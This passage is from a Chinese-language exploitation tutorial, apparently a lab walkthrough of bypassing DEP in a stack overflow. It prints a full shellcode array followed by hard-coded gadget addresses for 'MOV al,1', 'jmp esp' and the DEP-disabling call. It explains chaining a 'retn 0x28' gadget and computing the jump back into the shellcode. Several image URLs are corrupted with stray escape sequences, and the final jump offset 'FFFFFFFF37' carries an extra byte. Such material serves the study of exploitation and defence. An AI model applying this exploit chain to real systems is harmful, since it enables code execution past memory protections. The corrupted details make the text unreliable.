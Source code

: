![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1hkdwbbj5j20fz0ckjrw.jpg>)

我们用这个

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1hkeu9bzqj20mz0faabg.jpg>)

我们将shellcode改成这样

	char shellcode[]=

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"

	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"

	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"

	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"

	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"

	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"

	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"

	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"

	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"

	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"

	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"

	"\xA0\xC1\x80\x7C"//MOV al,1

	"\x95\x8b\x1d\x5d"//ebp

	"\x87\xa7\x64\x7d"// jmp esp

	"\x24\xbe\x93\x7c"// DEP

调试的时候我们再观察下retn 4之后，也就是重新定位ebp之后栈空间

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1hklo0a\x3j20\x30m6acl.jpg>)

我们可以发现当前弹出的就是jmp
esp，而我们希望的是在关闭DEP之后再运行到这里，如果我们将jmp放在DEP后面，那么retn+4会跳过一个栈位置到下一个栈位置去，那也无法定位到jmp的位置，而现在这个情况，我们只要在jmp之前再加一行对程序没多大影响的代码就行了，这里用了retn
0x28。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1hkqvv3kyj20et0cigm3.jpg>)

寻找的插件，第一个参数设置0，第二个参数设置0x28。

我们将找到的指令放在jmp前面，再运行。

![](<http://ww1.sinaimg.cn/large/7fb67c86ly1g1hku4n\x5\xj20\xs0me412.jpg>)

我们成功的把DEP关闭并且跳到了esp，接下来只需要在这个位置布置一个jmp跳到shellcode执行就可以了。我们现在在12FF94，shellcode在12FED0

	12FED0-12FF94-5（-5是跳转指令需要的长度）= FFFFFFFF37
